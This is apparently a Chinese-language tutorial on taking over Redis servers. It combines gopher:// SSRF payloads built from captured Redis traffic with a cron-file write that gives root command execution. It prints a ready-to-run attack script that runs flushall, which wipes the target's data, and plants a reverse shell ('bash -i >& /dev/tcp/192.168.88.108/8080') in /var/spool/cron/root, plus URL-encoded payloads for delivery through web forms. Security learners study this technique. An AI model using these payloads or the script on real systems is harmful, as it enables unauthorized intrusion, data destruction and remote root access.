

# Redis GetShell

## 协议格式 ##

gopher://<host>:<port>//<gopher-path>_后接TCP数据流

## 攻击redis ##

### 初探与介绍 ###

1、首先先要抓到redis的TCP数据流，才好弄Payload：

在Linux中，可以用tcpdump来抓流量

> tcpdump -i lo -s 0 port 6379 -w redis.pcap

若是抓本地接口的流量，注意是lo不是eth0

我们先抓个登录，然后抓个set key：

将tcpdump抓到的包导出来，用wireshark打开，追踪TCP流，然后只看我们输入的数据，不看服务端返回的数据，可以看到只有几行：

组合成URL的规则：

1、将回车替换成%0d%0a

2、我们输入的\n替换成%0a

所以这一串字符串可得：

	*1%0d%0a$7%0d%0aCOMMAND%0d%0a*3%0d%0a$3%0d%0aset%0d%0a$4%0d%0akey1%0d%0a$6%0d%0avalue1%0d%0a

在curl中尝试这个payload：

	gopher://127.0.0.1:6379/_*1%0d%0a$7%0d%0aCOMMAND%0d%0a*3%0d%0a$3%0d%0aset%0d%0a$4%0d%0akey1%0d%0a$6%0d%0avalue1%0d%0a

可以成功设置key。

要在web中运用给这个payload,需要url编码一下：

（这里的payload我改成了key3和value3，这里网页是一直转圈圈的）

试个使用密码的redis：

重新抓流量，和之前一样操作，发现密码验证也就是加多了一个auth命令：

顺理成章set key。

接下来讲重点：通过set key GetShell：

思路：

### 将反弹shell写到/var/spool/cron/目录里，这个目录是执行定时任务的地方。 ###

这个目录下如果有文件名为  root  的定时任务文件，就会以root权限执行。

测试一下：

在/var/spool/cron 中创建一文件 root。内容为：

> */1 * * * * echo "1" > /tmp/a.txt

这样就会一分钟执行一次这个命令。

网上找到的攻击的脚本：

	redis-cli -h $1 -p $2 flushall
	echo -e "\n\n*/1 * * * * bash -i >& /dev/tcp/192.168.88.108/8080 0>&1\n\n"|redis-cli -h $1 -p $2 -x set 1
	redis-cli -h $1 -p $2 config set dir /var/spool/cron/
	redis-cli -h $1 -p $2 config set dbfilename root
	redis-cli -h $1 -p $2 save
	redis-cli -h $1 -p $2 quit

以上保存为bash文件，跑之，抓包之，一把梭之，GetShell之 = =

$1 和 $2 在bash脚本里是输入的参数，后面看用法的时候就知道了，$1是输入的第一个参数，$2是输入的第二个参数，，以此类推。这里很明显$1是主机名，$2是端口号

第一行的命令是将所有key删掉，过滤掉垃圾数据，免得到时候save的时候会有奇怪的东西也跟着save了出来

第二行的命令将 

	*/1 * * * * bash -i >& /dev/tcp/192.168.88.108/8080 0>&1

这一个反弹shell的命令存入变量 1 中，redis-cli中 -x 表示从标准输入中读取一个参数，在这里即是将管道符左边的输出作为参数，传递给变量 1

第三行和第四行就是设置redis的导出路径和导出文件名

之后就是导出和退出了

我们来试试这个：

使用web试试：

先解包，组合payload：

包分了好几段，注意一下即可：

注意我们输入的\n，要换成%0a

注意空行换成%0a即可：

我们看看生成的root文件，发现虽然有些冗余东西，但是不影响，只要命令和冗余数据用\n隔开即可：

